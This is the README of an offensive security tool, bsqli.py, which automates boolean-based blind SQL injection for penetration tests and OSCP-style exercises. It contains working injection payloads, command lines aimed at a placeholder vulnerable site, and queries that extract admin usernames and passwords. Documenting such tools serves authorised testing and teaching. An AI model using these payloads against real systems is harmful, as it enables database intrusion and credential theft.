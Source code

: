 # bsqli.py
A nifty little boolean-based blind SQLi script for OSCP and real-life engagements.

This tool abstracts the tedious process of brute-forcing strings; and is primarily used to enumerate metadata (SQL version, DB name, host name) and tables. For instance, there may be some juicy credentials residing in some user table. Or we may want to simply perform a Proof-of-Concept for a client by grabbing the version banner.

> [!WARNING]  
> This tool is intended for authorised and ethical purposes only. The developers of this tool are not liable for any damages, legal consequences, or loss of data resulting from the use or misuse of this tool. Users are solely responsible for ensuring compliance with applicable laws and regulations.

The internals are pretty simple, but packaged into a flexible ~~battlestation~~ interface. Basically, we run `ASCII(SUBSTRING(query, idx, 1))` to obtain the numeric value of each character, then use binary search to deduce each value. Binary search allows us to deduce ASCII characters within 7 tries, instead of a linear search of ~96 tries.

Similar techniques are executed by SQLmap, so this tool can be considered a subset. But unlike SQLmap, there is no automatic exploitation or discovery built in. Instead, the user is asked to manually test and specify the necessary parameters, including the DBMS, injected parameter, and boolean conditions. As long as you understand the basic idea, this tool should be safe to use during OSCP and CTFs.

## Install ##

This script requires Python 3.10+, requests, rich, and prompt_toolkit.

```shell
pip install requests rich prompt_toolkit
```

Apart from that, just download/copy the file and you should be good to go!

## Usage ##

1. Manually craft a Boolean-Based Blind SQLi PoC. The request should contain
   an SQLi payload with a condition (e.g. 1=1). There should be distinct
   responses between true and false responses, either in the status code or
   response body.

2. Separate the SQLi payload (e.g. `' or '1'='1`) from the GET/POST params,
   and replace it with `{payload}`. Move your payload to the `--payload`
   argument. We do this to easily differentiate the request and payload.

3. Separate the condition (e.g. 1=1, 1=0) from the SQLi payload, and replace
   it with `{cond}`. This will be substituted with URL-encoded SQLi
   conditions to be boolean-tested.

4. Instruct the script on how to distinguish between TRUE and FALSE
   responses. Use the -bts, -bfs, -bttc, -bftc flags to do this.

5. Optionally, if there is an error response (neither TRUE/FALSE), we can
   instruct the script to ignore the response (and consider as NULL or '?')
   using the -bes, -betc, and -betn flags.
   
   This is useful if the server sporadically returns 500 due to a forbidden
   character, an internal SQL error, or rate-limiting (in which case, turn
   down the number of threads).

6. To debug, turn on verbosity (-vv) to print the payload and conditions
   being tested.

## Options ##

```txt
options:
  -h, --help            show this help message and exit
  --docs                Extensive documentation on installation, usage, and examples. (default: False)
  -V, --version         Print script version (default: False)

  -u URL, --url URL     The url to scan, with the scheme (e.g. http://192.168.1.1/admin). Possibly
                        containing an injection point marked with `{payload}`. (default: None)
  --data DATA           Url-encoded data to send with the request. Possibly containing an injection
                        point marked with `{payload}`. (default: )
  -X {GET,POST}, --method {GET,POST}
                        GET or POST (default: GET)
  -H HEADER, --header HEADER
                        Extra headers to send with requests. (default: [])
  --timeout TIMEOUT     Timeout of each request. (default: 5)
  --payload PAYLOAD     The SQLi payload. (default: None)

  --proxy PROXY         Send requests to a proxy. Example: http://127.0.0.1:8080. (default: None)
  --follow-redirects    Follows redirects in responses. (default: False)
  --max-retries MAX_RETRIES
                        Maximum number of connection retries to attempt. (default: 3)

  --dbms {MySQL,SQLServer,SQLite,OracleSQL}
                        The database management system. (default: None)
  --strategy {B}        The strategy to use: Boolean. You don't have any other choice at this moment.
                        (default: B)
  -t THREADS, --threads THREADS
                        Number of threads to use. (default: 8)

  -v                    Verbosity. -v for INFO, -vv for DEBUG messages. (default: 0)

  -bts BOOLEAN_TRUE_IF_STATUS, --boolean-true-if-status BOOLEAN_TRUE_IF_STATUS
                        If the response returns the provided status, mark the response as TRUE. All
                        other statuses are FALSE. (default: None)
  -bfs BOOLEAN_FALSE_IF_STATUS, --boolean-false-if-status BOOLEAN_FALSE_IF_STATUS
                        If the response returns the provided status, mark the response as FALSE. All
                        other statuses are TRUE. (default: None)
  -bttc BOOLEAN_TRUE_IF_TEXT_CONTAINS, --boolean-true-if-text-contains BOOLEAN_TRUE_IF_TEXT_CONTAINS
                        If the response text contains the provided text, mark the response as TRUE.
                        Otherwise, FALSE. (default: None)
  -bftc BOOLEAN_FALSE_IF_TEXT_CONTAINS, --boolean-false-if-text-contains BOOLEAN_FALSE_IF_TEXT_CONTAINS
                        If the response text contains the provided text, mark the response as FALSE.
                        Otherwise, TRUE. (default: None)
  -bes BOOLEAN_ERROR_IF_STATUS, --boolean-error-if-status BOOLEAN_ERROR_IF_STATUS
                        If the provided statuses are encountered, mark the query as an error. Accepts
                        multiple arguments (e.g. -bes 400, -bes 401). (default: [])
  -betc BOOLEAN_ERROR_IF_TEXT_CONTAINS, --boolean-error-if-text-contains BOOLEAN_ERROR_IF_TEXT_CONTAINS
                        If the provided text is encountered in the response body, mark the query as an
                        error. Accepts multiple arguments. (default: [])
  -betn BOOLEAN_ERROR_IF_TEXT_NOT_CONTAINS, --boolean-error-if-text-not-contains BOOLEAN_ERROR_IF_TEXT_NOT_CONTAINS
                        If the provided text was NOT encountered in the response body, mark the query
                        as an error. Accepts multiple arguments. (default: [])

  --cast-to-string      Cast the target output to varchar(2048) string. This allows numbers to be
                        output as well, since normally we can't SUBSTRING a number. (default: False)
  --cast-to-string-length CAST_TO_STRING_LENGTH
                        The length of the string to cast to. If you specify this, you should also
                        enable --cast-to-string. (default: 2048)
```

   
## Interface ##

Upon entering the CLI, you have some options.

1. Run pre-baked commands.

   ```
   sqli> v
   sqli> u
   ```

    - v: version
    - u: current user
    - d: db name
    - h: host name
    - s: server name

2. Query table. This is a special pre-baked command which allows you to
   enumerate a table and their columns. This hasn't been optimised for
   different versions yet (as some versions have special functions which can
   expedite this process).

   ```
   sqli> t
   table> information_schema.tables
   col> table_name
   ```

   This essentially does a `SELECT table_name FROM
   information_schema.tables`, but with some scripting involved to
   calculate, say number of entries.

   Here's another example which allows you to exfiltrate multiple columns on each row in MySQL.

   ```
   sqli> t
   table> admin
   col> concat(id,0x7c,username,0x7c,password,0x7c,firstname,0x7c,lastname,0x7c,created_on)
   ```

3. Run a custom query.

   ```
   sqli> SELECT 1
   sqli> SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='admin'
   ```


## Examples ##

Here are some examples based on real-life engagements.

### Case 1: Exploiting an Injection Point in GET Parameters ###

Observations:

- Victim runs on MySQL. (--dbms MySQL)
- Server returns a 200 status with XML containing `404` if the SQLi is
  false. (-bftc 404)
- The server also returns 200 if the SQLi is true, so we can't distinguish
  based on status code.

Request:

```http
GET /find.php?search=%25'%20AND%20(1=1)%20AND'1%25'%3d'1 HTTP/1.1
Host: vulnerable.site


```

Command:

```shell
python bsqli.py \
    -u 'http://vulnerable.site/find.php?search={payload}' \
    -X GET \
    --payload $'%\' AND {cond} AND \'1%\'=\'1' \
    --dbms MySQL \
    -bftc 404
```

### Case 2: Exploiting an Injection Point in a POST Form ###

Observations:

- Victim runs on SQLServer (--dbms SQLServer)
- Injection is in POST data (-X POST --data ...)
- The server is pretty beefy and can handle a larger number of threads
  (-t 32)
- The server returns 302 if the SQLi is successful. (-bts 302)
  We'll use this to determine if a query resulted in TRUE/FALSE.
- The server returns 500 if an error occurred (e.g. forbidden character,
  SQL error). (-bes 500)
  We'll use this to catch and discard false positives.

Request:

```http
POST / HTTP/1.1
Host: vulnerable.site
Content-Length: ...
Content-Type: application/x-www-form-urlencoded

login=a&password='%20or%20(1=1)%20--%20
```

Command:

```shell
python bsqli.py \
    -u http://vulnerable.site/login.asp \
    -X POST \
    --data=$'login=a&password={payload}' \
    --payload=$'\' or {cond} -- ' \
    --dbms SQLServer \
    -t 32 \
    -bts 302 -bes 500
```
    
